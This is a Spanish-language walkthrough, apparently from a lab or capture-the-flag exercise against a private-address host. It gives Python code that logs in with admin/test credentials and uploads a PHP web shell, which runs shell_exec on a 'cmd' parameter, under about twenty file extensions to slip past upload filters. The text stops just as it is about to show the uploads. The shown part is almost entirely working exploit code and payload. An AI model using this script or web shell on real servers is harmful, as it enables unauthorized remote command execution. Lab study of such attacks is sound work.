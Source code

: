 En primer lugar, vamos a definir nuestras variables:

```py
url = "http://192.168.233.129/dashboard.php?id=1"
urlLogin= "http://192.168.233.129/login.php"
extensions= [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]
s = requests.Session()
```
Luego, tenemos nuestra función para iniciar sesión:

```py
def login():

    post_data = { 
        "username": "admin",
        "password": "test"
     }

    r = s.post(urlLogin,data=post_data)
```

Finalemnte, tenemos nuestra función que subirá nuestro payload con las diferentes extesiones que definimos anteriormente:

```py
def upload():

    for ext in extensions:

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        files  = {'fileToUpload':(f'shell{ext}',payload)

            }

        r = s.post(url,files=files)
```

Al ejecutar este código, nos vamos a ver las uploads:
